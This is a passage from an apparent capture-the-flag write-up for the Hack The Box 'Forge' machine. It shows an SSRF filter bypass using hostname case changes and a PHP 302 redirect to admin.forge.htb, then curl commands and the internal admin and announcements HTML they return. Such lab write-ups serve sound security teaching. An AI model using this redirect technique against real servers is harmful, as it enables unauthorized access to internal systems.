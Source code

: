 ![Screenshot from 2022-01-20 23-29-26](https://user-images.githubusercontent.com/79413473/150395369-7055eaac-e130-432c-b0b7-00125e9f2d59.png)
+ Notice the User-Agent this means it's a python webserver using python2.
+ Now also visit **admin.forge.htb** and it says *only localhost allowed*. Which means requests originating from server itself.
+ Now at this point we can use SSRF to visit **admin.forge.htb** there are few ways we can do it.
 
  1. It uses regex to check if `URL=` paramter contains strings like *localhost, 127.0.0.1, or admin.forge.htb*. Basically preventing us from accessing internal endpoints but very bad filtering. YOu can read all about SSRF bypassing here
  2. You can make requests with **Admin.Forge.htb** or any character play it will bypass the filter.
  3. What i did is that created my server's **index.php** with 302 redirect to localhost or admin.forge.htb. Which bypasses the blacklist and server don't check where  request actually resolves.
  ```
  <?php
   header("Location: http://admin.forge.htb");
   exit;
  ?>
  ```   
  
  ![Screenshot from 2022-01-20 23-43-38](https://user-images.githubusercontent.com/79413473/150397285-ada0bfa8-fc7f-4258-b580-5cf9852b1f9f.png)
  
  4. Now if you visit this uploaded file it will say error because it's parsing it as image. so you can curl it and it will reveal what's actually in those file.
  5. `curl http://forge.htb/uploads/oaY2aBv4kKghWJXWifEY`.
 
```
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
``` 


6. we can see there is and endpoint for **announcements**. Let's modify our php file accoudingly to read that content. 
 `header("Location: http://admin.forge.htb/announcements")`
7. send the request and curl the image.
```
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
```